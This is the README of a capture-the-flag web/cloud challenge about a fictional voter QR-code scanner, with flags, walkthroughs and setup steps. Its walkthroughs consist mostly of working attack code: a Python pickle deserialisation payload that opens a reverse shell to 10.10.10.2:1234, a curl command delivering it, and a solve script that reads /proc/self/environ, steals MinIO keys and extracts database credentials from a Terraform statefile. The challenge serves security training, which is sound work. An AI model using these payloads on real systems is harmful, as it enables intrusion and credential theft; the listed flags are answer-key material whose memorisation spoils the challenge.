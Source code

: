 # A Scanner Pwnly

**Author:** enderthenetrunner (Robert Babaev)

**Category:** Web / Cloud

## Description

Val Verde just implemented a fancy new QR code system for validating voters. Something about being easier for citizens. I don't buy that tradeoff.

See if you can't crack this thing wide open.

### Files

See `release_files`

### Host

`http://badgescan.valverde.vote:1337`

## Part 1

**CTFd name:** _A Scanner Pwnly 1 - Badges_

### CTFd Description

First order of business: Every full scale takeover starts with getting onto the machine. Find a way in.

### Depends on

N/A

### Flag

<details>
<summary>(expand to read)</summary><br>

`FLAG{democracy_in_a_pickle_f2a687abaf0305c4}`

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

This part involves exploiting a `pickle` RCE in the /scanner endpoint of the API, then using the generic error handling to get some output.

Once you have the RCE, you should be able to find the flag by looking through the environment variables. Easiest way to do this is using the
`/proc/self/environ` file.

```python
# Generates a base64 encoded pickle payload that creates a reverse shell to 10.10.10.2 on port 1234
import pickle
import base64


class RCE:
    def __reduce__(self):
        return (
            exec,
            (
                """
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.10.2',1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
        """,
            ),
        )


if __name__ == "__main__":
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
```

```bash
# Run the payload
curl -v -X POST "http://api.badgescan.valverde.vote:8000/scanner/" \
    -H "Content-Type: application/json" \
    -d '{"data": "gASV9wAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIzbCmltcG9ydCBzb2NrZXQsc3VicHJvY2VzcyxvcwpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCcxMC4xMC4xMC4yJywxMjM0KSkKb3MuZHVwMihzLmZpbGVubygpLDApCm9zLmR1cDIocy5maWxlbm8oKSwxKQpvcy5kdXAyKHMuZmlsZW5vKCksMikKc3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pCiAgICAgICAglIWUUpQu"}'
```

</details>

## Part 2

**CTFd name:** _A Scanner Pwnly 2 - Environmental Awareness_

### CTFd Description

They're using a custom object storage solution to stash the QR codes. Wonder if they've got anything else we can use in there.

### Depends on

_A Scanner Pwnly 1 - Badges_

### Flag

<details>
<summary>(expand to read)</summary><br>

`FLAG{terraformidable_errors_22439f083e887544}`

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

This one might take some recon, but in the environment you should see a handful of MinIO keys. Using the installed MinIO client on the system, or by navigating to
the dashboard at `http://object-storage.badgescan.vv:9001/`, you should be able to access all of the buckets.

Notably, there is a Terraform statefile in one of the now accessible buckets. Take the file, run it through something like `jq`, and you'll see it's a snapshot
of the current state of the application infrastructure.

Contained within this snapshot is credentials to the internal database. Connect via that same RCE (it's only accessible within the network) and find the flag
in the memos table.

```python
# solve.py

import base64
import json
import pickle
from typing import Any

from httpx import AsyncClient
from minio import Minio, S3Error


class ScannerExploit:
    def __init__(self, payload: str):
        self.payload = payload

    def __reduce__(self):
        return exec, (self.payload,)

    def create_scanner_payload(self) -> str:
        return base64.b64encode(pickle.dumps(self)).decode()


async def main():
    async with AsyncClient(
        base_url="http://api.badgescan.valverde.vote:8000"
    ) as api_client:
        # Getting the environment variables

        with open("env_payload.py") as fd:
            payload = fd.read()
            exploit = ScannerExploit(payload)

        res = await api_client.post(
            "/scanner/", json={"data": exploit.create_scanner_payload()}
        )

        error = res.json()["error"].strip()

        last_error_line: str = error.split("\n")[-1]
        env_collection = last_error_line.removeprefix("RuntimeError: ").split("\x00")
        env_vars: dict[str, str] = dict()
        for env_pair in env_collection:
            env_pair = env_pair.strip()
            if not env_pair:
                continue
            name, value = env_pair.split("=")
            env_vars[name] = value

        minio_access_key = env_vars.get("MINIO_ACCESS_KEY", "")
        minio_secret_key = env_vars.get("MINIO_SECRET_KEY", "")
        minio_endpoint = env_vars.get("MINIO_ENDPOINT", "")
        flag = env_vars.get("FLAG", "")

        print(f"FLAG OBTAINED: {flag}")

        minio_client = Minio(
            minio_endpoint,
            access_key=minio_access_key,
            secret_key=minio_secret_key,
            secure=False,
        )

        buckets = minio_client.list_buckets()

        target_bucket = "terraform"

        terraform_objects = minio_client.list_objects(bucket_name=target_bucket)

        for file in terraform_objects:
            print(
                f"Object found in bucket '{target_bucket}': {file.object_name}",
            )

        target_object = "terraform.tfstate"

        file_data = minio_client.get_object(target_bucket, target_object).read()

        terraform_state = json.loads(file_data.decode())

        internal_db_hostname = ""

        for resource in terraform_state.get("resources", []):
            resource_name = resource.get("name", "Name not found")
            resource_type = resource.get("type")

            if "internal_db" not in resource_name:
                continue

            if resource.get("type") != "docker_container":
                continue

            print("Internal DB resource found:", resource_name)

            for instance in resource.get("instances"):
                attributes: dict[str, Any] = instance.get("attributes")
                env: list[str] = attributes.get("env", [])
                for env_pair in env:
                    name, value = env_pair.split("=")
                    env_vars[name] = value

                internal_db_hostname = attributes.get("hostname")

        internal_db_user = env_vars.get("POSTGRES_USER", "")
        internal_db_password = env_vars.get("POSTGRES_PASSWORD", "")
        internal_db_name = env_vars.get("POSTGRES_DB", "")

        print(
            f"{internal_db_user=}, {internal_db_name=}, {internal_db_password=}, {internal_db_hostname=}"
        )


if __name__ == "__main__":
    try:
        asyncio.run(main())
    except S3Error as e:
        print(f"MinIO error: {e}")
    except Exception as e:
        print(f"Unknown error: {e}")
```

```python
# env_payload.py

raise RuntimeError(open("/proc/self/environ").read())
```

For database exploitation, use the reverse shell code provided in the walkthrough for part 1.
The `postgresql` client can be installed via apt.

</details>

## Setup instructions

### 1. Install Docker

Easiest way to install Docker is via the convenience script:

```bash
curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

### 2. Install OpenTofu

The challenge relies on OpenTofu for deployments.

```bash
curl --proto '=https' --tlsv1.2 -fsSL https://get.opentofu.org/install-opentofu.sh -o install-opentofu.sh
chmod +x install-opentofu.sh
./install-opentofu.sh --install-method deb
rm -f install-opentofu.sh
```

### 3. Install jq

If it's not already installed, run:

```bash
sudo apt install jq
```

### 4. Run the Script

This might take a while! (And, depending on your setup, explicit sudo permissions.)

```bash
./scripts/deploy.sh
```
